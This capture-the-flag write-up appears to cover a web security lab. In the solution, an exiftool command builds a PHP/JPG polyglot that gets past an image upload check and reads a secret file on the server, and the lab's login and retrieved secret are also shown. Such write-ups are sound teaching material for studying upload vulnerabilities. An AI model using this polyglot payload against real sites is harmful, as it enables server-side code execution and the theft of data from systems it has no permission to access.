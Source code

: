 [Source]()
## Challenge
This lab contains a vulnerable image upload function. Although it checks the file contents to make sure it is a legitimate image, it is still possible to upload and execute server-side code.

To solve this challenge, download the basic PHP web shell and use it to get the contents of the file `/home/carlos/secret`. Submit this secret using the button provided on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that it is possible to upload an image. Let's try to upload a PHP file.

![image](images/20250627233540.png)

We see that the server sees this file as an invalid image, since it looks at the binary content of the file. And it does not match the content of the image. Generate a PHP/JPG polyglot file:
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.jpg -o polyglot.php
```

![image](images/20250627233742.png)

Load this `poliglot.php`

![image](images/20250627233851.png)

Go back to the profile so that a request to load this "picture" comes

![image](images/20250627233413.png)

```Secret
Blx9WTRDdseHRZY4QzqTCfetWvf9xEVb
```

![image](images/20250627233428.png)
